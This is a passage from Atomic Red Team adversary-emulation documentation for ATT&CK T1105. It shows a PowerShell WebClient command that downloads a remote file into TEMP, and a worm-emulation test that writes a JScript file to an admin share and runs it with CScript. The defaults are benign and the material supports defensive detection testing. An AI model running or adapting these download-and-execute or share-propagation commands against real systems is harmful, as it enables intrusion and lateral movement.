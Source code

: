 This test uses PowerShell to download a payload.
This technique is used by multiple adversaries and malware families.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | URL of file to copy | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| destination_path | Destination path to file | Path | $env:TEMP&#92;Atomic-license.txt|

#### Attack Commands: Run with `powershell`!

```powershell
(New-Object System.Net.WebClient).DownloadFile("#{remote_file}", "#{destination_path}")
```

#### Cleanup Commands:

```powershell
Remove-Item #{destination_path} -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #11 - OSTAP Worming Activity

OSTap copies itself in a specfic way to shares and secondary drives. This emulates the activity.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_path | Path to create remote file at. Default is local admin share. | String | &#92;&#92;localhost&#92;C$|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
pushd #{destination_path}
echo var fileObject = WScript.createobject("Scripting.FileSystemObject");var newfile = fileObject.CreateTextFile("AtomicTestFileT1105.js", true);newfile.WriteLine("This is an atomic red team test file for T1105. It simulates how OSTap worms accross network shares and drives.");newfile.Close(); > AtomicTestT1105.js
CScript.exe AtomicTestT1105.js //E:JScript
del AtomicTestT1105.js /Q >nul 2>&1
del AtomicTestFileT1105.js /Q >nul 2>&1
popd
```

<br/>
